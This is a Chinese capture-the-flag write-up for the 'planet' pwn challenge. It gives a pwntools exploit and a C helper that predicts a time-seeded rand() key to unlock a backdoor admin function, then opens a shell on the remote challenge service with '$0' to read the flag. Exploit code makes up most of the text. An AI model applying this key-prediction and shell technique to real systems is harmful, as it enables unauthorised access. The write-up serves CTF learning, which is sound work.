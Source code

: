 # W5 planet

## 文件分析

下载`planet`, NX on, PIE on, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

有后门函数，虽然有随机数，但以时间为种子，直接模拟攻击；
命令限长，就用"$0"打开shell

官方wp有对链表的利用，不管了，能打通就是好exp

## EXPLOIT

```python
from pwn import *
def payload(delay:int):
    probe = process(['seedprobe2', str(delay)])
    key = probe.recvline(False)
    print(f'key to shell is: {key.decode()}')
    probe.close()

    sh = remote('node4.buuoj.cn', 25321)
    sh.sendlineafter(b':', b'secret_passwd_anti_bad_guys')
    sh.sendlineafter(b'>', b'Admin') # enter Admin func
    sh.sendlineafter(b'>', key)      # send calced key
    sh.interactive()
    #$0
    #cat flag

payload(5)
```

```c
// seedprobe2.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#define STRLEN 31

int main(int argc, char **argv) {
    if (argc == 1) {
        puts("no time input!");
        return 0;
    } 
    int delay = -1;
    delay = atoi(argv[1]);
    if (delay == -1) {
        puts("invalid time input");
        return 0;
    }
    time_t init = time(NULL) + delay;
    srand(init);
    for (int i = 0; i < 55; i++)
        rand();
    char ret[STRLEN];
    for (int i = 0; i < STRLEN - 1; i++) 
        ret[i] = "abcdefghijklmnopqrstuvwxyz"[rand() % 26];
    ret[STRLEN - 1] = '\0';
    puts(ret);
    return 0;
}
```

## 第一次一血！

<img src="../assets/1stBlood.jpg" width="40%" title="好耶">

Done.
